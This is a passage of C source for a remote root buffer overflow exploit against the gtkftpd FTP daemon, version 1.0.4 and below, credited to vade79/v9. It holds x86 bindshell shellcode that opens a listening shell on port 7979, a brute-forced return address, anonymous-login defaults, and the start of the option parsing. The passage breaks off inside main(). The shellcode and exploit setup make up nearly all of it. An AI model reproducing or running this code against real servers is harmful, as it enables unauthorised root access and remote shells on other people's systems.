     #define DFLUSER "anonymous" /* no argument, default username. */
    #define DFLPASS "null@null.com" /* no argument, default password. */
    #define DFLDIR "/incoming" /* no argument, default +w directory. */
    #define DFLCLM 80 /* default screen width to use. */
    #define DFLADDR 0xbffffffa /* base brute address. */
    #define TIMEOUT 10 /* connection timeout. */
    static char x86_exec[]= /* bindshell(sport), modded from netric. */
     /* port defined in byte 20, and 21; in a 'short' cast form. */
     "\x31\xc0\x50\x40\x89\xc3\x50\x40\x50\x89\xe1\xb0\x66\xcd\x80\x31"
     "\xd2\x52\x66\x68\x00\x00\x43\x66\x53\x89\xe1\x6a\x10\x51\x50\x89"
     "\xe1\xb0\x66\xcd\x80\x40\x89\x44\x24\x04\x43\x43\xb0\x66\xcd\x80"
     "\x83\xc4\x0c\x52\x52\x43\xb0\x66\xcd\x80\x93\x89\xd1\xb0\x3f\xcd"
     "\x80\x41\x80\xf9\x03\x75\xf6\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f"
     "\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80";
    /* protos/functions. */
    char *getdir(unsigned int);
    char *getbdir(void);
    char *getcode(void);
    void filter_text(char *);
    void ftp_printf(int,char *,...);
    void ftp_clean(int);
    void ftp_read(int);
    void ftp_parse(int);
    void ftp_connect(void);
    void getshell(int,unsigned int);
    void printe(char *,short);
    void usage(char *);
    void sig_ctrlc(){printe("user aborted.",1);}
    void sig_alarm(){printe("alarm/timeout hit.",1);}
    void sig_pipe(){printe("connection closed/failed.",1);}
    /* globals. (ease of use throughout) */
    unsigned short align=2; /* probably will never need to be otherwise. */
    unsigned short port=21; /* generic ftp daemon port. */
    unsigned short sport=7979; /* generic bindshell port. */
    unsigned short reverse=0; /* go upward, instead of downward */
    unsigned short no_io=0; /* do not show traffic. */
    unsigned int attempts=100; /* number of times to brute. */
    unsigned int columns=80; /* generic screen width. */
    unsigned int ftp_i=0; /* Nth time read ftp socket. */
    unsigned int baseaddr=DFLADDR; /* base address. (again) */
    char *host; /* hostname/target, a must have. */
    char *user; /* username to use. */
    char *pass; /* password to use. */
    char *writedir; /* need a writable directory. */
    char *basedir; /* gets filled in later. */
    /* program start. */
    int main(int argc,char **argv){
     int chr=0;
     printf("[*] gtkftpd[v1.0.4(and below)]: remote root buffer overflow"
     " exploit.\n[*] by: vade79/v9 v9@fakehalo.deadpig.org (fakehalo)\n\n");
     /* set the chomp point, filter long lines. */
     if(getenv("COLUMNS"))columns=atoi(getenv("COLUMNS"));
     if(7>columns||columns>256)columns=DFLCLM;
     while((chr=getopt(argc,argv,"h:P:s:u:p:c:b:a:n:rd"))!=EOF){
      switch(chr){
       case 'h':
        if(!host&&!(host=(char *)strdup(optarg)))
         printe("main(): allocating memory failed.",1);
        break;
       case 'P':
        port=atoi(optarg);
        break;
       case 's':
        sport=atoi(optarg);